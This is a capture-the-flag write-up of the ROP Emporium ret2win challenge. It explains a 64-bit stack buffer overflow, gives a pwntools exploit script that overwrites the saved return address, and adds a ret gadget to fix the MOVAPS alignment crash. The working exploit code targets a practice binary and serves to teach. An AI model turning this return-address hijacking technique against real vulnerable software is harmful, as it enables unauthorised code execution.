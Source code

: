 # RET2WIN

*This document only documents the x86_64 version of ret2win. I only included the 32 bit version because I was trying to sanity check my buffer overflow.*

[ret2win](https://ropemporium.com/challenge/ret2win.html)

This is a classic buffer overflow attack that asks you to overwrite the instruction pointer to get the program to run a different function instead of continuing with the instruction after the call to `pwnme`. According GDB (and the output of the `ret2win` program itself), the `pwnme` function will try to read a 0x38 (56) byte string from `stdin` and copy it to a 0x20 (32) byte buffer. This buffer is 0x20 bytes from `rbp`, which means that it is 0x28 (40) bytes from the saved RIP on the stack.

```
# snippet of disassembled `pwnme` function
   0x0000000000400733 <+75>:    lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:    mov    edx,0x38
   0x000000000040073c <+84>:    mov    rsi,rax
   0x000000000040073f <+87>:    mov    edi,0x0
   0x0000000000400744 <+92>:    call   0x400590 <read@plt>
```

```
$ ./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> 
```

This leaves us with 56-40=16 bytes (or 2 64-bit integers) for our ROP chain. Luckily for us, this is all that we need to take control of the RIP.

All we have to do is to write 40 bytes of garbage, then write the instruction pointer of the `ret2win` function to get the flag...

```
$ nm ./ret2win | grep ret2win
0000000000400756 t ret2win
```

```python
# ./win.py
...
from pwn import *
...
attack = b"A"*40 + p64(0x400756)
io.sendline(attack)
...
```

...and it should work right?

Right?

What's this? A segfault?!

```
# output of gdb
Program received signal SIGSEGV, Segmentation fault.
0x00007f7f1e288723 in ?? () from target:/usr/lib/libc.so.6
```

```
# where it all went wrong
► 0x7f7f1e288723    movaps xmmword ptr [rsp + 0x50], xmm0
```

We have encountered the dreaded *`MOVAPS issue`*. Don't panic, ROP Emporium's [beginners guide](https://ropemporium.com/guide.html) has a simple remedy for this problem.

```
# copied verbatim from the Common pitfalls section
so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.
```

Theoretically, all we need to do is to get a ROP gadget that allows us to `ret`urn to `ret2win`.

Using ROPgadget, we get this:

```
$ ROPgadget --binary ret2win | grep -E ": ret$"
0x000000000040053e : ret
```

And we add this after the garbage and just before the address of the function.

```python
# ./win.py
...
from pwn import *
...
attack = b"A"*40 + p64(0x40053e) + p64(0x400756)
io.sendline(attack)
...
```

and run `win.py` again:

```
$ ./win.py
[*] '/home/renoir/Code/remote/github.com/RenoirTan/ROPEmporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/renoir/Code/remote/github.com/RenoirTan/ROPEmporium/ret2win/ret2win': pid 21913
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>\x05@\x00\x00\x00\x00\x00V\x07@\x00\x00\x00\x00\x00'
56
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/renoir/Code/remote/github.com/RenoirTan/ROPEmporium/ret2win/ret2win' stopped with exit code 0 (pid 21913)
[*] Got EOF while reading in interactive
$ 
```

Voila! There's our flag.